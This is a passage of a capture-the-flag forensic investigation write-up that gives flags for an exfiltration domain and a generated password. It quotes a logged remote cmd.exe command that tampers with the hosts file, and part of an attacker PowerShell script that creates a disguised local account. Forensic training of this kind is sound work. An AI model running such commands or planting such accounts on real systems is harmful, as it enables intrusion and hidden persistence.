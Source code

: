 ```xml
```

**Flag:** `svc_netupd`

---

### Question 8: Exfiltration Domain

**Task:** What domain name did the attacker use for credential exfiltration?

**Solution:**

I searched for the attacker's IP address in Security logs and found an event showing the attacker modifying the hosts file.

```xml
<Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
  <System>
    <Provider Name="Microsoft-Windows-Security-Auditing" Guid="{54849625-5478-4994-a5ba-3e3b0328c30d}" />
    <EventID>4688</EventID>
    <TimeCreated SystemTime="2025-08-24T23:00:15.2002604Z" />
    <EventRecordID>4414</EventRecordID>
    <Channel>Security</Channel>
    <Computer>Heisen-9-WS-6</Computer>
  </System>
  <EventData>
    <Data Name="SubjectUserName">HEISEN-9-WS-6$</Data>
    <Data Name="NewProcessName">C:\Windows\System32\cmd.exe</Data>
    <Data Name="CommandLine">cmd.exe /Q /c cmd /C "echo 10.129.242.110 NapoleonsBlackPearl.htb >> C:\Windows\System32\drivers\etc\hosts" 1> \\127.0.0.1\ADMIN$\__1756075857.955773 2>&1</Data>
    <Data Name="TargetUserName">Werni</Data>
    <Data Name="ParentProcessName">C:\Windows\System32\wbem\WmiPrvSE.exe</Data>
  </EventData>
</Event>
```

**Flag:** `NapoleonsBlackPearl.htb`

---

### Question 9: Generated Password

**Task:** What password did the attacker's script generate for the newly created user?

**Solution:**

This question gave me a hard time and required multiple steps. First, I found the `JM.ps1` script in the filesystem at `C:\Users\Werni\AppData\Local\JM.ps1`:

```powershell
# List of potential usernames
$usernames = @("svc_netupd", "svc_dns", "sys_helper", "WinTelemetry", "UpdaterSvc")

# Check for existing user
$existing = $usernames | Where-Object {
    Get-LocalUser -Name $_ -ErrorAction SilentlyContinue
}

# If none exist, create a new one
if (-not $existing) {
    $newUser = Get-Random -InputObject $usernames
    $timestamp = (Get-Date).ToString("yyyyMMddHHmmss")
    $password = "Watson_$timestamp"

    $securePass = ConvertTo-SecureString $password -AsPlainText -Force

```
